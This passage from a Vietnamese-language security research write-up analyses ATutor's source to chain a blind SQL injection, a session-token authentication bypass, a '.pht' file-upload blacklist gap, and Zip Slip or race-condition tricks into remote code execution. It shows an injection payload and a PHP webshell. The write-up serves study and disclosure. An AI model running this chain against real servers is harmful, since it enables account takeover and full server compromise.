'/**/AND/**/member_id=1/**/AND/**/password/**/LIKE/**/'{password}%%')/**/#
```

Với `{password}` là các ký tự mình sẽ lần lượt thế vào để brute-force password. Lưu ý cú pháp của `LIKE` sẽ có `%%` vì còn bước format string.

### Câu hỏi là: Lấy được password hash rồi thì làm được gì?
#### 1. Crack password: Tìm cơ chế hash password của hệ thống và phá vỡ cơ chế này để lấy được plaintext password

Để xem password được lưu vào DB như thế nào, mình bắt đầu đọc code của file `registration.php`. Ở đây mình thấy có biến `$_POST['form_password_hidden']` gán trực tiếp vào `$_POST['password']`, sau đó `$_POST['password']` được validate với `$addslashes()` rồi insert vào DB, mà không hề đi qua bước hash nào cả.

**`/registration.php`**  
```php
$_POST['password'] = $_POST['form_password_hidden'];
...
$_POST['password']   = $addslashes($_POST['password']);
...
/* insert into the db */
$sql = "INSERT INTO %smembers 
                (login,
                password,
                ...)
        VALUES ('$_POST[login]',
                '$_POST[password]',
                ...)
```

Có lẽ mình cần coi lại gói tin đăng ký.


Thấy rằng POST param `form_password_hidden` có vẻ là chứa password đã được hash của mình luôn rồi. Có thể javascript phía client-side đã thực hiện việc hash password này.

**`/themes/default/registration.tmpl.php`**  
```js
function encrypt_password()
{
    ...
        document.form.form_password_hidden.value = hex_sha1(document.form.form_password1.value);
    ...
}
```

Với `form_password1` chính là id của trường Password mà ta điền vào lúc đăng ký.

Xác nhận được password đã được hash dạng SHA1. Như vậy có thể dùng các tool crack SHA1 để tìm được plaintext password, trong trường hợp may mắn ta sẽ leak được password yếu, thứ đã có sẵn trong DB của những tool này.

#### 2. Logic flaw: Tìm những vấn đề trong logic code của ứng dụng khi xử lý password hash / cookie / token

Đã bị SQL Injection, chúng ta có thể leak ra được nhiều thông tin hơn chỉ password hash. Các chuỗi định danh khác như cookie / token cũng có thể bị triển khai logic kiểm tra sai, dẫn đến Authentication Bypass. Nhưng hãy đi từng trường hợp một, đầu tiên xem ứng dụng sẽ dùng password hash này như thế nào.

Cú regex search của mình sẽ trông như thế này  
`queryDB\(.*password`


Thấy có file `login_functions.inc.php` quen thuộc nên mình nhảy vào xem luôn, chọn nhánh `$used_cookie` bằng `false` cho dễ hit

**`/include/login_functions.inc.php`**  
```php
if ($used_cookie) {
    ...
} else {
    $row = queryDB("SELECT member_id, login, first_name, second_name, last_name, preferences, language, status, password AS pass, last_login FROM %smembers WHERE (login='%s' OR email='%s') AND SHA1(CONCAT(password, '%s'))='%s'", array(TABLE_PREFIX, $this_login, $this_login, $_SESSION['token'], $this_password), TRUE);
}
...
} else if (count($row) > 0) {
    $_SESSION['valid_user'] = true;
    $_SESSION['member_id']    = intval($row['member_id']);
    $_SESSION['login']        = $row['login'];
```

Đoạn code này nghĩa là nếu `queryDB()` chạy thành công và trả về kết quả cho `$row` thì ta sẽ login được vào bên trong.

`password` được lấy từ trong DB ra và đi vào hàm so sánh, nếu đã format string, sẽ trông như sau
```sql
SHA1(CONCAT(password, '{$_SESSION['token']}'))='{$this_password}'
```

Mà:
- `$this_password` như đã analyzed ở phần trên là mình có thể control được do lấy từ biến `$_POST['form_password_hidden']`
- `password` mình có thể leak ra từ bug SQL Injection
- `$_SESSION['token']` khi trace ngược lại lên trên thì mình cũng control được luôn

**`/include/login_functions.inc.php`**  
```php
if (isset($_POST['token']))
{
    $_SESSION['token'] = $_POST['token'];
}
```
**➡️ BAM! Chỉ cần nối chuỗi password hash và token tự chế sau đó hash nó một lần nữa và gửi lên server là xong**

## RCE
Okay sau khi login được rồi thì ta sẽ tìm cách RCE server

### 1. Local File Inclusion (LFI) / Remote File Inclusion (RFI)
Cú regex search của mình sẽ trông như sau  
`^include(_once)?\((?!.+(\.inc|\.class)\.php)`

Nghĩa là: Tìm các dòng chứa hàm `include()` hoặc `include_once()` với tên file không kết thúc bằng `.inc.php` hoặc `.class.php`. Đây là các file code của ứng dụng, mình sẽ không kiểm soát được nội dung của những file này.


Cả 2 file đầu tiên không có file nào mình có thể kiểm soát được nội dung file.  
File `index.php` còn lại mình có thể kiểm soát một phần nội dung, nhưng đến cuối cùng không thể thêm được code PHP vào file vì các user input đã được kiểm tra rất chặt chẽ.  
**➡️ Ý tưởng phá sản**

### 2. File Upload Vulnerability
#### 2.1. Upload file có đuôi .php
Chức năng upload file xuất hiện khá nhiều nơi trong source code. Trước mắt mình sẽ tiếp cận bằng cách test Blackbox để xem hành vi của ứng dụng như thế nào, cũng như có thể tìm ra các đoạn kiểm tra nhanh hơn.


Sau đó đọc code mình thấy developer sử dụng hàm `pathinfo()` để parse file name. Các đoạn code này kiểm tra khá bài bản và đã thực hiện tốt nhiệm vụ của nó

**`/mods/_core/courses/lib/course.inc.php`**  
```php
if ($_FILES['customicon']['name'] != ''){
    // Use custom icon instead if it exists
    // Check if image type is supported
    $gd_info = gd_info();
    $supported_images = array();
    if ($gd_info['GIF Create Support']) {
        $supported_images[] = 'gif';
    } 
    if ($gd_info['JPG Support'] || $gd_info['JPEG Support']) {
        $supported_images[] = 'jpg';
    }
    if ($gd_info['PNG Support']) {
        $supported_images[] = 'png';
    }
    $count_extensions = count($supported_images);
    
    $pattern = "/^.*\.(";
    foreach($supported_images as $extension){
        $count++;
        if($count == $count_extension){
            $pattern .= $extension;
            }else {
            $pattern .= $extension."|";
        }
    }
    $pattern .= ")$/i";
    if(preg_match($pattern, $_FILES['customicon']['name'])){
            $course_data['icon']      = $addslashes($_FILES['customicon']['name']);
            $allowedTypes = array(IMAGETYPE_PNG, IMAGETYPE_JPEG, IMAGETYPE_GIF);
            $detectedType = exif_imagetype($_FILES['customicon']['tmp_name']);
            if(!in_array($detectedType, $allowedTypes)){
                $msg->addError(array('FILE_ILLEGAL', $_FILES['customicon']['name']));
            }
    } else {
            $msg->addError(array('FILE_ILLEGAL', $_FILES['customicon']['name']));
    }
} 
```

**`/mods/_standard/social/profile_picture.php`**  
```php
// check if this is a supported file type
$filename   = $stripslashes($_FILES['file']['name']);
$path_parts = pathinfo($filename);
$extension  = strtolower($path_parts['extension']);
$image_attributes = getimagesize($_FILES['file']['tmp_name']);

if ($extension == 'jpeg') {
    $extension = 'jpg';
}

if (!in_array($extension, $supported_images)) {
    $msg->addError(array('FILE_ILLEGAL', $extension));
    header('Location: '.$_SERVER['PHP_SELF'].'?member_id='.$member_id);
    exit;
} else if ($image_attributes[2] > IMAGETYPE_PNG) {
    $msg->addError(array('FILE_ILLEGAL', $extension));
    header('Location: '.$_SERVER['PHP_SELF'].'?member_id='.$member_id);
    exit;
}
```

**➡️ Ý tưởng phá sản**

#### 2.2. Zip Slip Vulnerability
Server Atutor có hỗ trợ tính năng backup, do đó sẽ có nén và giải nén. Atutor sử dụng một thư viện là PclZip để phục vụ mục đích này.

Nếu truy cập vào file `Backup.class.php`, ta sẽ tìm thấy đoạn code giải nén một object PclZip

**`/mods/_core/backups/classes/Backup.class.php`**  
```php
// 2. extract the backup
$archive = new PclZip(AT_BACKUP_DIR . $from_course_id. '/' . $my_backup['system_file_name']. '.zip');
if ($archive->extract(	PCLZIP_OPT_PATH,	$this->import_dir, 
                        PCLZIP_CB_PRE_EXTRACT,	'preImportCallBack') == 0) {
    die("Error : ".$archive->errorInfo(true));
}
```

Đến đây thì chỉ cần search cú pháp như sau  
`->extract\(`  
là đã ra được khá nhiều sink để vào xem


Lưu ý rằng có những endpoint yêu cầu quyền Admin mới có thể truy cập được, trong khi user role hiện tại của chúng ta chỉ là Instructor, những file này ta cần exclude ra để giới hạn vùng cần phân tích.

Search folder source code cú pháp như sau  
`grep -r -n -e "admin_authenticate("`

Ta sẽ có được danh sách các file chứa dòng này, sau đó đưa danh sách này vào phần "files to exclude" của VS code là xong


Xem qua thì thấy file `import_test.php` là dễ hit nhất nên mình chọn tiếp tục đi sâu vào đây.

**`/mods/_standard/tests/import_test.php`**  
```php
$archive = new PclZip($_FILES['file']['tmp_name']);
if ($archive->extract(	PCLZIP_OPT_PATH,	$import_path,
                        PCLZIP_CB_PRE_EXTRACT,	'preImportCallBack') == 0) {
...
```

Thế nhưng để đi được đến dòng nơi object PclZip được tạo, ta cần phải thỏa một số điều kiện sau

File `vitals.inc.php` dòng 349, cần phải set GET param `h` một giá trị bất kì khác rỗng để cú request không bị exit.

**`/include/vitals.inc.php`**  
```php
if ((!isset($_SESSION['course_id']) || $_SESSION['course_id'] == 0) && ($_user_location != 'users') && ($_user_location != 'prog') && !isset($_GET['h']) && ($_user_location != 'public') && (!isset($_pretty_url_course_id) || $_pretty_url_course_id == 0)) {
	header('Location:'.AT_BASE_HREF.'users/index.php');
	exit;
}
```

File `import_test.php` dòng 95, tiếp tục cần gửi một POST param `submit_import` với giá trị bất kì để chương trình tiếp tục chạy.

**`/mods/_standard/tests/import_test.php`**  
```php
if (!$overwrite){
	if (!isset($_POST['submit_import'])) {
		/* just a catch all */
		
		$errors = array('FILE_MAX_SIZE', ini_get('post_max_size'));
		$msg->addError($errors);

		header('Location: ./index.php');
		exit;
	} 
```

Để chuẩn bị cho cú request gửi file, mình sẽ lấy một file `meow.jpg` thông thường (vì các đoạn kiểm tra file lúc nãy chỉ cho phép upload ảnh) và zip nó lại.


Nhưng vì không thể truy cập thẳng đến endpoint này để sử dụng chức năng upload file, mình sẽ cần code một đoạn Python script để gửi file zip vừa tạo lên server.

Đến đây ta chỉ cần đặt breakpoint để xác nhận xem file đã được upload thành công hay chưa.

File zip được upload lên sẽ được giải nén, file con sẽ nằm trong thư mục `/var/www/html/content/import/$_SESSION['course_id']/`. Trong trường hợp của mình, `$_SESSION['course_id']` bằng `0`, vậy đường dẫn file là `/var/www/html/content/import/0/meow.jpg`


Vậy là ta đã upload một file .zip chứa file .jpg bên trong và nó đã được giải nén thành công. Thử với file `test.php` thì sao

**`test.php`**  
```php
<?php phpinfo(); ?>
```


Hmm, kiểm tra bằng docker exec vào server mình cũng không thấy file `test.php` nào hết.


Có vẻ ta cần phải debug sâu hơn để biết đoạn code nào đã xử lý file `test.php`

Đặt breakpoint ở dòng 181 để đi vào hàm `extract()` debug, ta sẽ hiểu:
- giá trị `$import_path` được truyền vào `PCLZIP_OPT_PATH`, đây sẽ là nơi các file trong gói zip được giải nén vào
- tương tự, `preImportCallBack` cũng được truyền vào `PCLZIP_CB_PRE_EXTRACT`, đây là một callback function được gọi với mỗi file trong gói zip

**`/mods/_standard/tests/import_test.php`**  
```php
$archive = new PclZip($_FILES['file']['tmp_name']);
if ($archive->extract(	PCLZIP_OPT_PATH,	$import_path,
                        PCLZIP_CB_PRE_EXTRACT,	'preImportCallBack') == 0) {
...
```

Truy cập vào hàm `preImportCallBack()`, hàm này thực hiện kiểm tra đuôi file được giải nén có nằm trong danh sách `$IllegalExtentions` hay không, nếu có thì file này sẽ bị bỏ qua trong quá trình giải nén.


Danh sách `$IllegalExtentions` này chứa 20 extension không hợp lệ, ta thấy đã bị chặn mất `php` và `php3`, nhưng liệu như vậy đã đủ chưa?


Apache có một file config, trong đó có đoạn cấu hình những đuôi file như thế nào sẽ được xử lý bởi module PHP. Đoạn cấu hình của server Atutor này trông như sau.

```conf
<FilesMatch ".+\.ph(p[345]?|t|tml)$">
    SetHandler application/x-httpd-php
</FilesMatch>
```

Đây là một đoạn regex. Nghĩa là nếu đuôi file nằm trong danh sách .php, .php3, .php4, .php5, .pht, .phtml  
Thì Apache sẽ để PHP xử lý file đó

Như vậy rõ ràng là `$IllegalExtentions` đã blacklist thiếu rất nhiều đuôi file mà PHP có thể xử lý, khiến cho tấn công upload shell trở nên khả thi.

**`test.pht`**  
```php
<?php phpinfo(); ?>
```


Thử với payload RCE

**`shell.pht`**  
```php
<?php system("id"); ?>
```


Tuy nhiên còn một vấn đề nữa. Đó là khi debug và còn đặt breakpoint thì ta có thể truy cập được file `shell.pht` này. Nhưng nếu tắt debug đi thì ta sẽ lại gặp lỗi File not found



Tiếp tục debug xuống dòng 229 ta sẽ hit trúng hàm `clr_dir()`


Dựa vào tên hàm thì có vẻ nó sẽ thực hiện "dọn dẹp" đường dẫn `$import_path`. Mình tiếp tục debug vào hàm này để xem nó thực sự làm gì.

**`/mods/_core/file_manager/filemanager.inc.php`**  
```php
function clr_dir($dir) {
    if(!$opendir = @opendir($dir)) {
        return false;
    }
    
    while(($readdir=readdir($opendir)) !== false) {
        if (($readdir !== '..') && ($readdir !== '.')) {
            $readdir = trim($readdir);

            clearstatcache(); /* especially needed for Windows machines: */

            if (is_file($dir.'/'.$readdir)) {
                if(!@unlink($dir.'/'.$readdir)) {
                    return false;
                }
            } else if (is_dir($dir.'/'.$readdir)) {
                /* calls itself to clear subdirectories */
                if(!clr_dir($dir.'/'.$readdir)) {
                    return false;
                }
            }
        }
    } /* end while */

    @closedir($opendir);
    
    if(!@rmdir($dir)) {
        return false;
    }
    return true;
}
```

Vậy ra chính hàm này là "nút tự hủy" của folder `/var/www/html/content/import/0/`, xóa hết các file bên trong và xóa luôn chính nó. Logic của ứng dụng ở đây có thể hiểu là: cho phép người dùng upload lên một file zip chứa bài test để import vào DB, và sau khi import xong sẽ xóa các file này đi luôn. 

Như vậy trong trường hợp của chúng ta, sau khi upload shell lên thì file shell sẽ bị mất ngay. Lúc này mình có 2 ý tưởng:

#### 2.2.1. Tận dụng bug Zip Slip để Path Traversal ra Document Root
Để thoát khỏi "cái búng tay" của `clr_dir()` thì cách đơn giản nhất là đưa file shell của chúng ta ra khỏi thư mục bị ảnh hưởng là được, hoặc đơn giản là nhảy thẳng ra ngoài Document Root luôn.

Dùng tool [`evilarc`](https://github.com/ptoomey3/evilarc) sẽ giúp ta khai thác bug Zip Slip dễ dàng hơn.

Lúc này chỉ cần truy cập vào là ta sẽ có shell


#### 2.2.2. Race Condition để truy cập đến file shell trước khi nó bị xóa
Lúc này ta nên upload một file reverse shell lên server, để chỉ cần một cú request đến được file shell là đã đủ để ta chiếm được server.

Với cách này ta chỉ cần một gói tin zip bình thường, bên trong chứa file shell là được.

Tuy nhiên tấn công kiểu này không thể đảm bảo 100% thành công vì ta không thể canh đúng thời gian gói zip được giải nén để truy cập vô file trước khi nó bị xóa.

Vì vậy để tăng tỷ lệ thành công, idea của mình là: liên tục gửi gói HTTP request đến file shell ngay khi vừa upload gói zip lên server.

Nếu gửi tuần tự từng cú HTTP request, một cú được apache xử lý rồi mới đến cú tiếp theo, chưa kể đến độ trễ, thì khả năng có một cú hit được file shell vẫn còn phải dựa vào may mắn khá nhiều.

Để tỷ lệ hit trúng file shell được cao nhất có thể, mình áp dụng một trick từ [Burp Extension: Turbo Intruder](https://portswigger.net/research/turbo-intruder-embracing-the-billion-request-attack) của tác giả [@James 'albinowax' Kettle](https://twitter.com/albinowax). Mình chuẩn bị 10 gói HTTP request và gửi chúng lên server, tuy nhiên, chừa lại một byte cuối khiến Apache phải đợi mà không được xử lý các cú request này ngay. Cuối cùng đồng loạt gửi các byte cuối này lên để "ép" Apache xử lý 10 cú này gần như cùng một lúc. Như vậy, gần như chắc chắn sẽ có một cú hit trúng file shell.

Lúc này chúng ta đã có được một connection reverse shell đến server Atutor.


## Conclusion
Đây là lần đầu tiên mình đi sâu vào phân tích một open-source to như thế này. Mình đã học được nhiều thứ về cách một ứng dụng thực tế được tạo ra, từ đó cải thiện được tư duy khi đi tìm bug. Có lẽ điều quan trọng nhất đối với mình là có được "ngoại cảm" để sau này nhắm được bug nằm ở đâu, và biết cách đặt ưu tiên cho những chỗ quan trọng cần xem trước.

Cuối cùng mình cũng đã đi đến mục tiêu là RCE hệ thống, tuy nhiên vẫn còn nhiều giả thuyết đưa ra chưa kiểm chứng được, cũng như còn nhiều chỗ khả năng xảy ra lỗi nhưng mình chưa xem hết. Chắc là tạm đóng project này để đổi gió, vì mình còn nhiều thứ phải học, để dịp nào rảnh mình quay lại xem những chỗ khác nữa nhé.

Cảm ơn bạn đã dành thời gian để đọc bài phân tích này!
